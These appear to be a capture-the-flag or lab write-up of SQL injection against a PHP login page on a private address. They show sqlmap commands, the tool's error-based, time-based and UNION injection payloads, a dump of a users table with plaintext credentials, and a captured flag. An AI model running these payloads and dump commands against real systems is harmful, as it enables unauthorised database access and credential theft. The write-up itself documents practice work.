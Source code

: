 Login page for `kaleb`
![[Pasted image 20250308074529.png]]
going to try `SQL Injection` with the post request with `test:test` credentials
![[Pasted image 20250308074652.png]]
`Post Request`
```http
POST /login.php HTTP/1.1
Host: 192.168.66.86
Content-Length: 27
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.66.86
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.66.86/login.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=6e10d3ee676e160c6fc874489c9e8a94
Connection: keep-alive


username=test&password=test
```
`sqlmap` doesn't seem to be working right now, testing `manually`  with `concat('a','b')` to identify that the database being used is `MySQL`
![[Pasted image 20250308075114.png]]
vulnerable to `SQL Injection` with `MySQL`, just need to point out the `inject` point of username

```bash
sqlmap -r login_post.txt -p username --dbms=MySQL --batch --risk=1 --level=3 --flush-session

POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 1119 HTTP(s) requests:
---
Parameter: username (POST)
    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: username=test2' AND GTID_SUBSET(CONCAT(0x71786b6a71,(SELECT (ELT(9208=9208,1))),0x71766b7671),9208)-- lcHi&password=test2

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=test2' AND (SELECT 5646 FROM (SELECT(SLEEP(5)))aHFp)-- wFeT&password=test2

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: username=test2' UNION ALL SELECT NULL,CONCAT(0x71786b6a71,0x4d787a4f4a66486a4c557a7844737841665a55556d68435254624c6a765a766a53545869524f4e59,0x71766b7671),NULL-- -&password=test2
---
```
![[Pasted image 20250308075600.png]]
`username` is vulnerable to `error-based, timebased blind, and UNION queries`
![[Pasted image 20250308075542.png]]
pulling the `database` names with `sqlmap -r login_post.txt -p username --dbs --batch `
![[Pasted image 20250308075847.png]]
checking out the `starfires` databases tables with `sqlmap -r login_post.txt -p username -D starfires --tables --batch`
![[Pasted image 20250308080013.png]]
two tables identified, checking out users `table` for columns with `sqlmap -r login_post.txt -p username -D starfires -T users --columns --batch`
![[Pasted image 20250308080124.png]]
dumping the `users` table for credentials `sqlmap -r login_post.txt -p username -D starfires -T users --dump --batch `

```bash
+----+--------------------+----------+
| id | password           | username |
+----+--------------------+----------+
| 1  | hsuiaushdhaksjia99 | kaleb    |
| 2  | sdjsikjdhhdha^21   | admin    |
+----+--------------------+----------+
[13:01:58] [INFO] table 'starfires.users' dumped to CSV file '/root/.local/share/sqlmap/output/192.168.66.86/dump/starfires/users.csv'                                                       
[13:01:58] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/192.168.66.86'                                                                                   
[13:01:58] [WARNING] your sqlmap version is outdated     
```

![[Pasted image 20250308080252.png]]
able to login with `admin`
![[Pasted image 20250308080427.png]]local.txt `local.txt - 43cba3ff7c76cbede35894ab3be95b64`
![[Pasted image 20250308080444.png]]